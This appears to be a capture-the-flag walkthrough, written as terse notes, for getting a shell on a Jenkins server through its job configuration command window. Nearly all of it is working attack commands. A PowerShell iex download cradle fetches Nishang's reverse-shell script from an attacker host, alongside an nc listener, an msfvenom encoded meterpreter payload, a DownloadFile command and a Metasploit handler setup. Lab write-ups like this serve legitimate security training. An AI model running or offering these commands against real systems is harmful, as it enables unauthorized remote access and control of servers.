 jenkins version = 2.190.1

found area to inject code: http://10.10.60.11:8080/job/project/configure

hosted the "powershelltcp.ps1" scipt from nishang on a python webserver

set up a reverse listener "nc -lvnp 4444"

then used this command in the jenkins code window:
	powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port

gained access

then upgraded the shell to a metepreter shel
 - created an encoded x86-64 payoad to get a reverse shell 
	- msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
 - after creation, put this commamnd into the jenkins command area:
	- powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"
 - then set the meterpreter handler up:
	- use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-thm-ip set LPORT listening-port run
 - then executed the command on the target system inside jenkins "build now" button
 - in other created shell run the .exe payload

